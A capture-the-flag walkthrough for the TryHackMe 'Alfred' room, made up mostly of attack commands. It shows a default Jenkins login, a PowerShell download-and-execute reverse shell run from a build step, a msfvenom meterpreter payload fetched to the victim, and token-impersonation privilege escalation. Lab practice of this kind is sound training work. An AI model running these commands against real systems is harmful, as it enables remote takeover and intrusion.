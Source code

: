 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444
```

**How many ports are open? (TCP only)**

```
nmap -A 10.10.98.134
```

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); 
Invoke-PowerShellTcp
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe
python2 -m SimpleHTTPServer 81
```

**Kali**&#x20;

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.135.134 
set LPORT 1337 
run
```

**Victim**&#x20;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"
Start-Process "shell.exe"
```

<figure><img src="../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

```
load incognito 
list_tokens -g
```

![](<../../.gitbook/assets/image (17).png>)

```
impersonate_token "BUILTIN\Administrators" 
getuid
```

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

```
ps
migrate 668
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>
